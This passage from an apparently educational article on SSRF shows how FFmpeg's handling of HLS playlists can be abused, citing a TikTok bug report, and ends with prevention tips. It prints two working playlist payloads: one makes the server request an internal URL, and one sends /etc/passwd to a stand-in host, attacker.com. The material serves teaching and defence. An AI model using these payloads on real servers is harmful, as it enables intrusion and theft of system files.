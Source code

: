 Another surprising vector for SSRF is in server-side image and video processing. When a user uploads media, the server will often process and compress the video to save storage space. Most often, servers will rely on a ubiquitous open-source project called [FFmpeg](https://www.ffmpeg.org/) to process the video.

FFmpeg supports a wide variety of input formats to process. This includes most standard video formats, but FFmpeg has such a wide featureset that it also includes surprising formats such as text files and [HTTP Live Streaming (HLS) playlists](https://www.fastpix.io/blog/a-complete-guide-to-m3u8-files-in-hls-streaming). An HLS playlist does not contain any video data; rather, it is a text file describing where to find smaller video files that make up a video stream, and FFmpeg will fetch these files while streaming video playback. By uploading a malicious HLS playlist in place of a normal video, an attacker can cause FFmpeg to make internal network requests from the video processing server.

As a concrete example, [TikTok used to be vulnerable to such an attack](https://hackerone.com/reports/1062888). For example, an attacker could upload a `.avi` file with HLS directives embedded in it:

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://internal.com/anything
#EXT-X-ENDLIST
```

This will cause FFmpeg to send a network request to the specified URL and attempt to render the result in the output video.

An attacker can even use FFmpeg to read a local file from the server and upload its contents to an attacker-controlled URL. This uses the [subfile protocol](https://ffmpeg.org/ffmpeg-protocols.html#subfile) to send the contents of `/etc/passwd` to the attacker's server:

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://attacker.com/header.m3u8|subfile,,start,1,end,10000,,:/etc/passwd
#EXT-X-ENDLIST
```

The full writeup of this vulnerability is available [here](https://hackerone.com/reports/1062888).

### Prevention

SSRF vulnerabilities can be prevented through multiple layers of defense:

* **Validate and sanitize user input:** SSRF is usually triggered by abnormal inputs, so validating the expected format of user inputs can help to avoid it. For example, in the Grafana link redirection SSRF, we could have validated that the input hash only contained hexadecimal characters. Building destination URLs with `new URL()` instead of string concatenation can also help to avoid SSRF.

* **Disable redirection when fetching URLs:** Unless redirection is required for an application to function correctly, we can reduce the likelihood of SSRF via link redirection by disabling redirection. You can do this with the `fetch()` API by passing `{redirect: 'error'}`:
  ```
  const response = await fetch(url, {redirect: 'error'})
  ```
